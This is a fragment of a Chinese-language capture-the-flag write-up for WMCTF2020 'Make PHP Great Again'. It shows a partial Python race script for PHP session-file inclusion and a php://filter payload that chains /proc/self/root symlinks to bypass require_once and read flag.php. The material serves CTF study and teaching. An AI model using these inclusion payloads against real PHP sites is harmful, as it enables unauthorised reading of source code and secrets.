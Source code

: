 ```python
 
def read(session):
    while True:
        re = session.get(url+'?file=/tmp/sess_flag')
        if "hacker123" in re.text:
            print(re.text)
            exit()
 
 
if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

下面是预期解：

>   require_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含.
>
>   超过20次软链接后可以绕过，

/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接

payload：`?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php`

## [WMCTF2020]Make PHP Great Again 2.0

跟上面的payload一模一样。。









